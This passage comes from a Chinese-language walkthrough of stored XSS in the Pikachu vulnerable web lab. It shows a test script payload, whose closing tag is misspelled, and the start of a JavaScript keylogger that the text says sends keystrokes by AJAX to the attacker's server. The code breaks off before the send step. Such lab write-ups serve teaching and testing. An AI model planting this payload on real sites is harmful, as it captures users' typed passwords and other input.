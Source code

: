 与GET方式的差别在于提交数据的方式不一样而已，其他都是一样的。

#### 0x02 存储型XSS

**漏洞挖掘**

打开页面，是一个留言的功能页面，随意输入然后提交，留言内容会被存储到数据库，然后输出到页面上。

![](WEB漏洞靶场pikachu-xss\QQ截图20190321132302.png)

输入`<script>alert(/xss/)</scipt>`并提交，JS被成功执行并弹窗。

**漏洞利用（键盘记录）**

JS Payload文件：

该JS文件作用是监听键盘记录，并将键盘记录通过AJAX请求发送到我们的服务器。

```javascript
function createAjax(){
    var request=false;
    if(window.XMLHttpRequest){
        request=new XMLHttpRequest();
        if(request.overrideMimeType){
            request.overrideMimeType("text/xml");
        }

    }else if(window.ActiveXObject){

        var versions=['Microsoft.XMLHTTP', 'MSXML.XMLHTTP', 'Msxml2.XMLHTTP.7.0','Msxml2.XMLHTTP.6.0','Msxml2.XMLHTTP.5.0', 'Msxml2.XMLHTTP.4.0', 'MSXML2.XMLHTTP.3.0', 'MSXML2.XMLHTTP'];
        for(var i=0; i<versions.length; i++){
            try{
                request=new ActiveXObject(versions[i]);
                if(request){
                    return request;
                }
            }catch(e){
                request=false;
            }
        }
    }
    return request;
}

var ajax=null;
var xl="datax=";

function onkeypress() {
    var realkey = String.fromCharCode(event.keyCode);
    xl+=realkey;
```